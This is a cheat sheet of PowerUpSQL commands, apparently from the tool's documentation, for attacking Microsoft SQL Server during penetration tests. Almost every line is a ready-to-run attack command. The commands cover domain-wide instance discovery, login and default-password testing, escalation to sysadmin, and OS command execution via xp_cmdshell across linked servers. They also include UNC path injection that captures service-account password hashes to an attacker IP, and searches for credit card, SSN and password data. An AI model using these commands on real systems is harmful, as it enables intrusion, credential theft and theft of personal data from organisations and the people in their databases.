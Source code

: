 Below is a list of some of the most common PowerUpSQL functions used during pentests.

## SQL Server Discovery Cheats
|Description|Command|
|:--------------------------------|:-----------|
|Discover Local SQL Server Instances |`Get-SQLInstanceLocal -Verbose`
|Discover Remote SQL Server Instances | `Get-SQLInstanceScanUDPThreaded -Verbose -ComputerName SQLServer1` <br>or<br>`Get-SQLInstanceFile -FilePath c:\temp\computers.txt | Get-SQLInstanceScanUDPThreaded -Verbose`
|Discover domain SQL Server Instances | `Get-SQLInstanceDomain -Verbose`
|Discover domain SQL Server Instance using alternative domain credentials|`runas /noprofile /netonly /user:domain\user PowerShell.exe`<br>`import-module PowerUpSQL.psd1`<br>`Get-SQLInstanceDomain`
|List SQL Servers using a specific domain account| `Get-SQLInstanceDomain -Verbose -DomainAccount SQLSvc`
|List shared domain user SQL Server service accounts|`Get-SQLInstanceDomain -Verbose | Group-Object DomainAccount | Sort-Object count -Descending | select Count,Name | Where-Object {($_.name -notlike "*$") -and ($_.count -gt 1) }`

## SQL Server Login Test Cheats
|Description|Command|
|:--------------------------------|:-----------|
|Get a list of domain SQL servers that can be logged into with a provided SQL Server login|`$Targets = Get-SQLInstanceDomain -Verbose | Get-SQLConnectionTestThreaded -Verbose -Threads 10 -username testuser -password testpass | Where-Object {$_.Status -like "Accessible"}`<br>`$Targets`
|Get a list of domain SQL servers that can be logged into with the current domain account|`$Targets = Get-SQLInstanceDomain -Verbose | Get-SQLConnectionTestThreaded -Verbose -Threads 10 | Where-Object {$_.Status -like "Accessible"}`<br>`$Targets`
|Get a list of domain SQL servers that can be logged into using an alternative domain account | `runas /noprofile /netonly /user:domain\user PowerShell.exe`<Br>`Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose -Threads 15`
| Discover domain SQL Servers and determine if they are configured with default passwords used by common applications based on the instance name | `Get-SQLInstanceDomain | Get-SQLServerLoginDefaultPw -Verbose`

## SQL Server Privilege Escalation Cheats
|Description|Command|
|:--------------------------------|:-----------|
|Audit for Issues| `Invoke-SQLAudit -Verbose -Instance SQLServer1`
|Escalate to sysadmin | `Invoke-SQLEscalatePriv -Verbose -Instance SQLServer1`
|Execute OS commands | `$Targets | Invoke-SQLOSCmd -Verbose -Command "Whoami" -Threads 10`
|Crawl database links|`Import-Module C:\PowerUpSQL-master\scripts\Get-SqlServerLinkCrawl.ps1`<br>`Get-SqlCrawl -Verbose -Instance SQLSERVER1\Instance1` 
|Crawl database links and execute query|`Import-Module C:\PowerUpSQL-master\scripts\Get-SqlServerLinkCrawl.ps1` <br> `Get-SQLCrawl -instance "SQLSERVER1\Instance1" -Query "select name from master..sysdatabases"`
|Crawl database links and execute OS command|`Import-Module C:\PowerUpSQL-master\scripts\Get-SqlServerLinkCrawl.ps1` <br> `Get-SQLCrawl -instance "SQLSERVER1\Instance1" -Query "exec master..xp_cmdshell 'whoami'"`
|UNC path injection |`Import-Module C:\PowerUpSQL-master\PowerUpSQL.psd1` <br> `Import-Module C:\PowerUpSQL-master\Scripts\Pending\Get-SQLServiceAccountPwHashes.ps1` <br> `Import-Module C:\PowerUpSQL-master\Scripts\3rdparty\Inveigh.ps1` <br> `Get-SQLServiceAccountPwHashes -Verbose -TimeOut 2 -CaptureIp 10.1.1.1`

## SQL Server Data Targeting Cheats
|Description|Command|
|:--------------------------------|:-----------|
|Execute arbitrary query|`$Targets | Get-SQLQuery -Verbose Query "Select @@version"`
|Grab basic server information | `$Targets | Get-SQLServerInfoThreaded -Threads 10 -Verbose`
|Grab list of non-default databases | `$Targets | Get-SQLDatabaseThreaded –Verbose –Threads 10 -NoDefaults`
|Dump common information from server to files|`Invoke-SQLDumpInfo -Verbose -Instance SQLSERVER1\Instance1 -csv`
|Find sensitive data based on column name |`$Targets |  Get-SQLColumnSampleDataThreaded –Verbose –Threads 10 –Keyword "credit,ssn,password" –SampleSize 2 –ValidateCC –NoDefaults`
|Find sensitive data based on column name, but only target databases with transparent encryption|`$Targets | Get-SQLDatabaseThreaded –Verbose –Threads 10 -NoDefaults | Where-Object {$_.is_encrypted –eq “TRUE”} | Get-SQLColumnSampleDataThreaded –Verbose –Threads 10 –Keyword “card, password” –SampleSize 2 –ValidateCC -NoDefaults`